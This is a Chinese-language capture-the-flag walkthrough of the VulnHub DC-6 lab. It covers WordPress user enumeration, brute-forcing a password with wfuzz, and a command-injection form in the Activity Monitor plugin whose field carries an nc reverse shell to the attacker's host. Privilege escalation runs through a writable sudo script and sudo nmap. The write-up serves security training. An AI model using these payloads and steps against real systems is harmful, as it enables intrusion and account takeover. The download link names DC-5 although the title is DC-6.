










# DC: 6

下载地址：https://download.vulnhub.com/dc/DC-5.zip

## 实战演练

靶场IP地址:`192.168.32.165`



扫描对外开放端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p1-65535 192.168.32.165                                                                                                                                                                                                      
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-12 23:27 EDT
Nmap scan report for 192.168.32.165
Host is up (0.00089s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:59:92:D3 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 1.89 seconds

```

访问80端口会跳转到wordy域名,需要配置本地hosts

```
192.168.32.165 wordy
```



发现web框架是wordpress



使用wpscan寻找用户

```
wpscan --url http://wordy -eu

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://wordy/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] sarah
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] graham
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] mark
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] jens
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

盒子 DCAU 的作者在[网站](https://www.vulnhub.com/entry/dc-6,315/)上给出了线索。让我们用它来生成密码文件。

```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt 
```

```
┌──(root💀kali)-[~/Desktop]
└─# wfuzz -c --hc=200 -z file,user.txt -z file,passwords.txt -d 'log=FUZZ&pwd=FUZ2Z&wp-submit=Log+In' http://wordy/wp-login.php 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://wordy/wp-login.php
Total requests: 13340

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000009879:   302        0 L      0 W        0 Ch        "mark - helpdesk01"   

```

太好了，我们得到了用户的密码`mark`。

```
username : mark passworc : helpdesk01 
```

使用此密码访问 wordpress。



开发wordpress插件,我们可以看到一个插件`Activity monitor`。



这个插件有一个可利用的漏洞，你可以[在这里查看](https://www.exploit-db.com/exploits/45274)。该插件容易受到操作系统命令注入的影响。

我们必须修改我们的 POST 请求以使其工作。

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc 192.168.32.130 9999 -e /bin/bash" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

使用 .html 扩展名保存上述文件，并通过浏览器通过设置 python http 服务器导航到 html 文件。



设置监听器并通过单击按钮我们得到外壳。



在用户标记的主目录中，我发现`things-to-do.txt`. 该文件包含用户的密码`graham`。

```
cat things-to-do.txt 
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
```



端口 22 对 ssh 开放，在这里我尝试使用凭据与 ssh 连接。然后查看 sudoers 列表，发现 graham`/home/jens/backups.sh`不用密码也可以作为 jens 运行。

```
graham@dc-6:~$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh

```

查看`backups.sh`文件内容和脚本权限

```
graham@dc-6:~$ cat /home/jens/backups.sh 
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
graham@dc-6:~$ ls -al /home/jens/backups.sh 
-rwxrwxr-x 1 jens devs 50 Apr 26  2019 /home/jens/backups.sh

```

在脚本添加bash

```
echo '/bin/bash' >>  /home/jens/backups.sh
```

现在我们以牛仔裤的身份成功登录

```
graham@dc-6:~$ sudo -u jens /home/jens/backups.sh 
tar: Removing leading `/' from member names
tar (child): backups.tar.gz: Cannot open: Permission denied
tar (child): Error is not recoverable: exiting now
tar: backups.tar.gz: Wrote only 4096 of 10240 bytes
tar: Child returned status 2
tar: Error is not recoverable: exiting now

```

我再次检查了 sudoers 列表，发现 jens 可以在`/usr/bin/nmap`没有密码的情况下以 root 身份运行。

```
jens@dc-6:/home/graham$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```


```
jens@dc-6:/home/graham$ TF=$(mktemp)
jens@dc-6:/home/graham$ echo 'os.execute("/bin/sh")' > $TF
jens@dc-6:/home/graham$ sudo /usr/bin/nmap --script=$TF

Starting Nmap 7.40 ( https://nmap.org ) at 2022-07-13 14:35 AEST
NSE: Warning: Loading '/tmp/tmp.WtGHsHUiPn' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
# 

```

flag


